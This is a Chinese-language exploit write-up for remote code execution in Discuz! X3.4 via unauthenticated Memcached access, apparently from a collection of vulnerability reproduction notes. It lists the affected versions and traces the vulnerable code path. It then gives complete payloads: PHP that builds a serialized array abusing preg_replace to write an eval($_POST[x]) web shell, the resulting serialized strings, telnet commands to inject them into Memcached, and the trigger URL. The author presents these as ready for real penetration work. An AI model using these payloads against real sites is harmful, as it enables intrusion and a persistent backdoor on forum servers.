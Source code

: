 Discuz! X3.4 Memcached未授权访问导致的rce
=========================================

一、漏洞简介
------------

这个漏洞大致利用过程是这样的：利用discuz!的ssrf漏洞，利用gopher协议写入payload到memcached，然后请求特定链接导致代码执行漏洞。

二、漏洞影响
------------

-   \<= x3.4

-   windows

-   php\>5.3+php-curl\<=7.54

-   DZ开放在80端口

三、复现过程
------------

### 漏洞分析

Dz 整合 Memcache
配置成功后，默认情况下网站首页右下角会出现`MemCache On`的标志：

![](resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId25.jpg)

漏洞利用有两个版本，一个是老版本，一个是新版本，discuz！虽然已经是x3.4，代码也发生了变化，漏洞确是任然没有修复。

漏洞利用代码流程逻辑：

访问：

    forum.php?mod=ajax&inajax=yes&action=getthreadtypes
    ./source/module/forum/forum_ajax.php

![](resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId26.png)

    ./template/default/common/footer_ajax.htm

![](resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId27.png)

    ./source/function/function_core.php

![](resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId28.png)

    ./source/function/function_core.php

![](resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId29.png)

最后利用`preg_replace`函数`/e`参数的代码执行特性完成了漏洞利用的全部过程。

以上是老版本代码，在网上已经有一些分析了，在这里简述一些，重点是payload的完整性使用。网上文章大部分在payload部分都只是验证性演示。作为一名红队渗透测试人员，验证性payload肯定是不能再实际渗透测试活动中使用的。

### 漏洞复现

***1 老版本漏洞利用流程：***

生成payload

    <?php
    $payload['output']['preg']['search']['plugins']= "/.*/e";
    $payload['output']['preg']['replace']['plugins']= "file_put_contents('./data/cache/ln.php','<?phpeval(\$_POST[x]);?>');";
    $payload['rewritestatus']['plugins']= 1;
    echoserialize($payload);
    a:2:{s:6:"output";a:1:{s:4:"preg";a:2:{s:6:"search";a:1:{s:7:"plugins";s:5:"/.*/e";}s:7:"replace";a:1:{s:7:"plugins";s:68:"file_put_contents('./data/cache/ln.php','<?phpeval($_POST[x]);?>');";}}}s:13:"rewritestatus";a:1:{s:7:"plugins";i:1;}}

然后telnet链接memcached

    telnet 1.1.1.1 11211
    set xxxxxx_setting 1 0 yyy    //xxxx为前缀，discuz定义的，可以使用stats cachedump 命令查看。yyy为payload长度。

![](resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId31.png)

最后访问**forum.php?mod=ajax&inajax=yes&action=getthreadtypes**

shell生成\*\*/data/cache/ln.php\*\*

***2 新版本漏洞利用流程***

生成payload有点变化(ps:只是少了一个e)

    <?php
    $payload['output']['preg']['search']['plugins']= "/.*/";
    $payload['output']['preg']['replace']['plugins']= "file_put_contents('./data/cache/ln.php','<?phpeval(\$_POST[x]);?>');";
    $payload['rewritestatus']['plugins']= 1;
    echoserialize($payload);
    a:2:{s:6:"output";a:1:{s:4:"preg";a:2:{s:6:"search";a:1:{s:7:"plugins";s:4:"/.*/";}s:7:"replace";a:1:{s:7:"plugins";s:68:"file_put_contents('./data/cache/ln.php','<?phpeval($_POST[x]);?>');";}}}s:13:"rewritestatus";a:1:{s:7:"plugins";i:1;}}

![](resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId32.png)

访问:**forum.php?mod=ajax&inajax=yes&action=getthreadtypes**

![](resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId33.png)

最后一定要恢复缓存

Delete Vtfbsm\_setting

成功写入文件

![](resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId34.png)

参考链接
--------

> https://xz.aliyun.com/t/2018
